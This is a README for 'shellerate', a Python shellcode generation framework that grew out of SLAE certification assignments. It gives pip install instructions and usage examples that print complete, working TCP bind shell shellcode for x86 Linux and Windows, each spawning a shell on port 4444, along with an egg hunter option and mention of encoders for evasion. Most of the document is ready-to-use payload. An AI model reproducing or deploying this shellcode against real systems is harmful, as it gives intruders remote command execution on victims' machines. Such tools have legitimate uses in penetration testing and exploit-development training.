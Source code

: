 # Shellerate

## Introduction

This the Changelog file for the shellerate project. 'shellerate' is pun between
'shell' and 'scellerato', the Italian word for 'wicked'.

'shellerate' is a shellcode generation framework born from the assignments I
took for the SecurityTube Linux Assembly Expert certification process.

You can feature custom encoders, custom crypters, polymorphism and all stuff I
learned in the SLAE certification process.

shellerate is Python3 package and supported architectures and operating system
are limited to:

* x86/Linux
* x86/Win

Other architectures and operating systems will be added in the future.

## Installation

To install shellerate to your system you can issue the following command:

> pip install shellerate

## Available payloads

### TCP Bind shell shellcode

This shellcode will bind on a given port, waiting for clients and spawn a shell
on the incoming connection.

#### Platform

At the moment, this shellcode is available only for x86/Linux platform.

#### Features

| Feature | Supported |
|---------|-----------|
| Encoding | Yes |
| Crypter | No |
| Egg Hunter | Yes |

#### Usage

Basic usage:

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'
```

If you want to create a bind shell shellcode for windows x86, you can call this
way:
```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'win')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\xfc\\xe8\\x82\\x00\\x00\\x00\\x60\\x89\\xe5\\x31\\xc0\\x64\\x8b\\x50\\x30\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x0f\\xb7\\x4a\\x26\\x31\\xff\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7\\xe2\\xf2\\x52\\x57\\x8b\\x52\\x10\\x8b\\x4a\\x3c\\x8b\\x4c\\x11\\x78\\xe3\\x48\\x01\\xd1\\x51\\x8b\\x59\\x20\\x01\\xd3\\x8b\\x49\\x18\\xe3\\x3a\\x49\\x8b\\x34\\x8b\\x01\\xd6\\x31\\xff\\xac\\xc1\\xcf\\x0d\\x01\\xc7\\x38\\xe0\\x75\\xf6\\x03\\x7d\\xf8\\x3b\\x7d\\x24\\x75\\xe4\\x58\\x8b\\x58\\x24\\x01\\xd3\\x66\\x8b\\x0c\\x4b\\x8b\\x58\\x1c\\x01\\xd3\\x8b\\x04\\x8b\\x01\\xd0\\x89\\x44\\x24\\x24\\x5b\\x5b\\x61\\x59\\x5a\\x51\\xff\\xe0\\x5f\\x5f\\x5a\\x8b\\x12\\xeb\\x8d\\x5d\\x68\\x33\\x32\\x00\\x00\\x68\\x77\\x73\\x32\\x5f\\x54\\x68\\x4c\\x77\\x26\\x07\\xff\\xd5\\xb8\\x90\\x01\\x00\\x00\\x29\\xc4\\x54\\x50\\x68\\x29\\x80\\x6b\\x00\\xff\\xd5\\x6a\\x08\\x59\\x50\\xe2\\xfd\\x40\\x50\\x40\\x50\\x68\\xea\\x0f\\xdf\\xe0\\xff\\xd5\\x97\\x68\\x02\\x00\\x11\\x5c\\x89\\xe6\\x6a\\x10\\x56\\x57\\x68\\xc2\\xdb\\x37\\x67\\xff\\xd5\\x57\\x68\\xb7\\xe9\\x38\\xff\\xff\\xd5\\x57\\x68\\x74\\xec\\x3b\\xe1\\xff\\xd5\\x57\\x97\\x68\\x75\\x6e\\x4d\\x61\\xff\\xd5\\x68\\x63\\x6d\\x64\\x00\\x89\\xe3\\x57\\x57\\x57\\x31\\xf6\\x6a\\x12\\x59\\x56\\xe2\\xfd\\x66\\xc7\\x44\\x24\\x3c\\x01\\x01\\x8d\\x44\\x24\\x10\\xc6\\x00\\x44\\x54\\x50\\x56\\x56\\x56\\x46\\x56\\x4e\\x56\\x56\\x53\\x56\\x68\\x79\\xcc\\x3f\\x86\\xff\\xd5\\x89\\xe0\\x4e\\x56\\x46\\xff\\x30\\x68\\x08\\x87\\x1d\\x60\\xff\\xd5\\xbb\\xf0\\xb5\\xa2\\x56\\x68\\xa6\\x95\\xbd\\x9d\\xff\\xd5\\x3c\\x06\\x7c\\x0a\\x80\\xfb\\xe0\\x75\\x05\\xbb\\x47\\x13\\x72\\x6f\\x6a\\x00\\x53\\xff\\xd5'
```


Usage with egg hunter

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.egg_hunter()
b.generate()
sc = b.shellcode()

print("bindshell shellcode: " + b.shellcode())
print("egghunter shellcode: " + b.get_egg_hunter_code())
```
